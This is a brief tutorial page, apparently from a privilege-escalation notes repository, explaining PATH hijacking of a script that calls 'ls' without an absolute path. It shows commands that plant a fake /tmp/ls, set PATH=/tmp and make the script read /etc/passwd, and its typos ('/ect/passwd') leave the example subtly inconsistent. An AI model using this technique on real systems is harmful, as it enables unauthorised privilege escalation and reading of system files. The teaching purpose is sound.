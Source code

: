 # Relative path to run binary

## Explanation

**Attention** if you want escalate privileges, the vulnerable script needs at least to have suid permission.
- [SUID redhat](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)
.<br>
When a program refere to a binary command without giving the absolute path, you can execute your own program instead of the command.<br>
This program show below refer to this venurability. 

```
#!/bin/bash

ls /ect/passwd
```

When bash interpret `ls`, he is trying to find the command located in the `env | grep PATH`.<br>
It try every directory, from letf to right, to check if the executable is located in. If it is, he execute it.<br>
The tricks is to create a new file name "ls" write some code to execute at the emplacement /ect/passwd.
```
#write the command cat inside a ls file located in /tmp
echo cat > /tmp/ls
chmod +x /tmp/ls

#modifie the PATH, to get bash to find and execute your ls file instead of the real one.
PATH=/tmp
```

Now the previous script execute `cat /etc/passwd` instead of `ls /etc/passwd`.
